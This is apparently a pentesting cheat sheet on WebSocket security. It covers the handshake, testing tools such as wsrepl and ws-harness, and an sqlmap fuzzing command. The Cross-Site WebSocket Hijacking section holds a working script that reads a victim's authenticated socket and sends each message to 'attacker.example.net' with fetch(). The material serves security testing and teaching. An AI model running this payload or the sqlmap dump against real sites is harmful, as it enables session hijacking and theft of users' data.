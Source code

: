 # Web Sockets

> WebSocket is a communication protocol that provides full-duplex communication channels over a single, long-lived connection. This enables real-time, bi-directional communication between clients (typically web browsers) and servers through a persistent connection. WebSockets are commonly used for web applications that require frequent, low-latency updates, such as live chat applications, online gaming, real-time notifications, and financial trading platforms.

## Summary

* [Tools](#tools)
* [Methodology](#methodology)
    * [Web Socket Protocol](#web-socket-protocol)
    * [SocketIO](#socketio)
    * [Using wsrepl](#using-wsrepl)
    * [Using ws-harness.py](#using-ws-harnesspy)
* [Cross-Site WebSocket Hijacking (CSWSH)](#cross-site-websocket-hijacking-cswsh)
* [Labs](#labs)
* [References](#references)

## Tools

* [doyensec/wsrepl](https://github.com/doyensec/wsrepl) - WebSocket REPL for pentesters
* [mfowl/ws-harness.py](https://gist.githubusercontent.com/mfowl/ae5bc17f986d4fcc2023738127b06138/raw/e8e82467ade45998d46cef355fd9b57182c3e269/ws.harness.py)
* [PortSwigger/websocket-turbo-intruder](https://github.com/PortSwigger/websocket-turbo-intruder) - Fuzz WebSockets with custom Python code
* [snyk/socketsleuth](https://github.com/snyk/socketsleuth) - Burp Extension to add additional functionality for pentesting websocket based applications

## Methodology

### Web Socket Protocol

WebSockets start as a normal `HTTP/1.1` request and then upgrade the connection to use the WebSocket protocol.

The client sends a specially crafted HTTP request with headers indicating it wants to switch to the WebSocket protocol:

```http
GET /chat HTTP/1.1
Host: example.com:80
Upgrade: websocket
Connection: Upgrade
Sec-WebSocket-Key: dGhlIHNhbXBsZSBub25jZQ==
Sec-WebSocket-Version: 13
```

Server responds with an `HTTP 101 Switching Protocols` response. If the server accepts the request, it replies like this.

```http
HTTP/1.1 101 Switching Protocols
Upgrade: websocket
Connection: Upgrade
Sec-WebSocket-Accept: s3pPLMBiTxaQ9kYGzzhZRbK+xOo=
```

### SocketIO

Socket.IO is a JavaScript library (for both client and server) that provides a higher-level abstraction over WebSockets, designed to make real-time communication easier and more reliable across browsers and environments.

### Using wsrepl

`wsrepl`, a tool developed by Doyensec, aims to simplify the auditing of websocket-based apps. It offers an interactive REPL interface that is user-friendly and easy to automate. The tool was developed during an engagement with a client whose web application heavily relied on WebSockets for soft real-time communication.

wsrepl is designed to provide a balance between an interactive REPL experience and automation. It is built with Python’s TUI framework Textual, and it interoperates with curl’s arguments, making it easy to transition from the Upgrade request in Burp to wsrepl. It also provides full transparency of WebSocket opcodes as per RFC 6455 and has an automatic reconnection feature in case of disconnects.

```ps1
pip install wsrepl
wsrepl -u URL -P auth_plugin.py
```

Moreover, wsrepl simplifies the process of transitioning into WebSocket automation. Users just need to write a Python plugin. The plugin system is designed to be flexible, allowing users to define hooks that are executed at various stages of the WebSocket lifecycle (init, on_message_sent, on_message_received, ...).

```py
from wsrepl import Plugin
from wsrepl.WSMessage import WSMessage

import json
import requests

class Demo(Plugin):
    def init(self):
        token = requests.get("https://example.com/uuid").json()["uuid"]
        self.messages = [
            json.dumps({
                "auth": "session",
                "sessionId": token
            })
        ]

    async def on_message_sent(self, message: WSMessage) -> None:
        original = message.msg
        message.msg = json.dumps({
            "type": "message",
            "data": {
                "text": original
            }
        })
        message.short = original
        message.long = message.msg

    async def on_message_received(self, message: WSMessage) -> None:
        original = message.msg
        try:
            message.short = json.loads(original)["data"]["text"]
        except:
            message.short = "Error: could not parse message"

        message.long = original
```

### Using ws-harness.py

Start `ws-harness` to listen on a web-socket, and specify a message template to send to the endpoint.

```powershell
python ws-harness.py -u "ws://dvws.local:8080/authenticate-user" -m ./message.txt
```

The content of the message should contains the **[FUZZ]** keyword.

```json
{
    "auth_user":"dGVzda==",
    "auth_pass":"[FUZZ]"
}
```

Then you can use any tools against the newly created web service, working as a proxy and tampering on the fly the content of message sent thru the websocket.

```python
sqlmap -u http://127.0.0.1:8000/?fuzz=test --tables --tamper=base64encode --dump
```

## Cross-Site WebSocket Hijacking (CSWSH)

If the WebSocket handshake is not correctly protected using a CSRF token or a
nonce, it's possible to use the authenticated WebSocket of a user on an
attacker's controlled site because the cookies are automatically sent by the
browser. This attack is called Cross-Site WebSocket Hijacking (CSWSH).

Example exploit, hosted on an attacker's server, that exfiltrates the received
data from the WebSocket to the attacker:

```html
<script>
  ws = new WebSocket('wss://vulnerable.example.com/messages');
  ws.onopen = function start(event) {
    ws.send("HELLO");
  }
  ws.onmessage = function handleReply(event) {
    fetch('https://attacker.example.net/?'+event.data, {mode: 'no-cors'});
  }
  ws.send("Some text sent to the server");
</script>
```

You have to adjust the code to your exact situation. E.g. if your web
application uses a `Sec-WebSocket-Protocol` header in the handshake request,
you have to add this value as a 2nd parameter to the `WebSocket` function call
in order to add this header.

## Labs

* [PortSwigger - Manipulating WebSocket messages to exploit vulnerabilities](https://portswigger.net/web-security/websockets/lab-manipulating-messages-to-exploit-vulnerabilities)
* [PortSwigger - Cross-site WebSocket hijacking](https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking/lab)
* [PortSwigger - Manipulating the WebSocket handshake to exploit vulnerabilities](https://portswigger.net/web-security/websockets/lab-manipulating-handshake-to-exploit-vulnerabilities)
* [Root Me - Web Socket - 0 protection](https://www.root-me.org/en/Challenges/Web-Client/Web-Socket-0-protection)

## References

* [Cross Site WebSocket Hijacking with socketio - Jimmy Li - August 17, 2020](https://blog.jimmyli.us/articles/2020-08/Cross-Site-WebSocket-Hijacking-With-SocketIO)
* [Hacking Web Sockets: All Web Pentest Tools Welcomed - Michael Fowl - March 5, 2019](https://web.archive.org/web/20190306170840/https://www.vdalabs.com/2019/03/05/hacking-web-sockets-all-web-pentest-tools-welcomed/)
* [Hacking with WebSockets - Mike Shema, Sergey Shekyan, Vaagn Toukharian - September 20, 2012](https://media.blackhat.com/bh-us-12/Briefings/Shekyan/BH_US_12_Shekyan_Toukharian_Hacking_Websocket_Slides.pdf)
* [Mini WebSocket CTF - Snowscan - January 27, 2020](https://snowscan.io/bbsctf-evilconneck/#)
* [Streamlining Websocket Pentesting with wsrepl - Andrez Konstantinov - July 18, 2023](https://blog.doyensec.com/2023/07/18/streamlining-websocket-pentesting-with-wsrepl.html)
* [Testing for WebSockets security vulnerabilities - PortSwigger - September 28, 2019](https://portswigger.net/web-security/websockets)
* [WebSocket Attacks - HackTricks - July 19, 2024](https://book.hacktricks.xyz/pentesting-web/websocket-attacks)
